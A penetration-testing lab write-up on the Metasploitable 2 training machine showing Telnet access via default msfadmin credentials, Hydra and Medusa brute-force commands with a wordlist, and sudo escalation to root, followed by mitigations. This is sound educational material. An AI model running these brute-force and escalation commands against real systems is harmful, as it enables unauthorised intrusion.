



# Telnet - Weak Credential Exploit

### Service Overview


Telnet is an older remote communication protocol that transmits data in plaintext. On Metasploitable 2, Telnet runs on port 23 and allows remote login using insecure, often default credentials.

---

## Vulnerability Overview

- **Name:** Telnet Weak Credential Login
- **CVE**: None (misconfiguration issue, not software vulnerability)
- **Impact**: Unauthorized remote shell access
- **Access Required**: None (can be brute-forced or guessed)
- **Attack Type**: Credential-based brute-force or default credentials
---

## Service Detection and Enumeration

```bash
sudo nmap -sV -v -p 23 <target_ip>
```



---

## Exploitation (Manual)

Use the `telnet` command to directly connect to the machine:

```bash
telnet <target_ip> 23
```

Try default credentials:

```
Username: msfadmin
Password: msfadmin
```



## Exploitation (Automated - Hydra)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt telnet://<target_ip>
```

or 

```bash
medusa -h <target_ip> -u msfadmin -P /usr/share/wordlists/rockyou.txt -M telnet
```
---

## Privilege Escalation


Once logged in as `msfadmin`, privilege escalation is possible because this user has `sudo` access.

```bash
sudo -l
```

Enter the same password (msfadmin) when prompted. If allowed:
```bash
sudo su
```
Now we have root shell access.




## Results

- Gained user shell through default Telnet credentials
- Demonstrated the weakness of plaintext protocols and weak passwords
- Performed local privilege escalation to gain full root access

## Mitigation

- Disable Telnet entirely; it transmits data *unencrypted*
- Disable or remove default accounts like `msfadmin`, `user`, `postgres`, etc.
- Restrict Telnet access via firewalls or IP whitelisting
- Limit `sudo` usage and harden `/etc/sudoers` to only allow necessary privilege escalation


